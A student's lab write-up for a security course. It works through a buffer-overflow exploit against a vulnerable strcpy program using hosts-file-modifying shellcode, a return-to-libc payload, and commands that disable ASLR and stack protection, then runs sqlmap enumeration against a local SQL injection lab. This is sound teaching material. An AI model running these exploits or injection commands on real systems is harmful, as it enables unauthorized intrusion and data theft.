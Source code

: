 # LAB#1, Doan Minh Khanh,   INSE331280E_02FIE

# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode in asm. This shellcode add a new entry in hosts file
```
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"

```
**Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is  added to the /etc/hosts file on your linux. 
  You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
  
**Answer 1**: Must conform to below structure:


- Compile asm program and C program to executable code. 
  
Run docker

Copy the above code c into the folder Security-lab/buffer-overflow/vuln.c

Do the same for the shellcode, copy into the file_del

Create the file out vuln.o to execute the code

``` 
gcc -g vuln.c -o vuln.out -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack
```
   Create a file_asm out by these 2 commands
``` 
nasm -g -f elf file_del.asm

ld -m elf_i386 -o file_del file_del.o
```
Set up the enviroment
``` 
sudo ln -sf /bin/zsh /bin/sh

sudo sysctl -w kernel.randomize_va_space=0
```
Change perrmission
``` 
sudo chmod 7777 /etc/hosts
``` 
The picture of the above actions:
![createpicture](./img/lab1_pic1.png)


- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is  added to the /etc/hosts file on your linux. 
output screenshot (optional)

Stack frame:
![createpicture](./img/test1-stackframe.png)

To execute the the file_del, it needs to overwrite the buffer

we redirect the directory
export mybuf="/home/seed/seclabs/Security-labs/Software/buffer-overflow/file_del"

find the payload by
``` 
gdb -q vuln.out  
``` 

![createpicture](./img/libc.png)
![createpicture](./img/findthepayload.png)
Then we collect the payload that can conduct buffer-overflow to the return address like in the stackframe

payload = padding + system_addr + exit_addr + "/bin/sh"
```
r $(python -c "print('a'*20 + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' +  '\x09\xdf\xff\xff')")
```
**Conclusion**: comment text about the screenshot or simply answered text for the question

After run the payload in gdb wwe have
![createpicture](./img/runpayload.png)

Then we check again the /cat/host directory, we have see the new part 127.1.1.1 google.com. That means we insert and conduct the buffer-overflow sucessfully 
![createpicture](./img/chenThanhcong.png)
# Task 2: Attack on the database of Vulnerable App from SQLi lab 
- Start docker container from SQLi. 
- Install sqlmap.
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

git clone https://github.com/sqlmapproject/sqlmap.git
![createpicture](./img2/sqlmapgitclone.png)

Find the available database
````
python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=1&Password=1"  --dbs
````
![createpicture](./img2/findthenamedbs.png)

At the end we have information of the database
![createpicture](./img2/nameofdbs.png)

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
````
python sqlmap.py -u "http://localhost:3128/unsafe_home.php?username=1&Password=1" -D sqllab_users --tables
````
![createpicture](./img2/getTableofDatabase.png)
**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**: